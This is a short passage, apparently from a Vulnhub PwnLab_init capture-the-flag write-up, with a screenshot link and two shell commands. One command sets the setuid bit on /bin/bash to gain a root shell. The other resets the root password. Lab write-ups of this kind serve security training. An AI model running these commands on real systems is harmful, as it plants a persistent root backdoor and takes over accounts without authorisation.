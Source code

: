 
```bash
"test" > /tmp/1 && chmod u+s /bin/bash && /bin/echo "qweqwe"
```

```bash
passwd root
```

![PwnLab_init](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/PwnLab_init/screenshots/20250515043907.png)
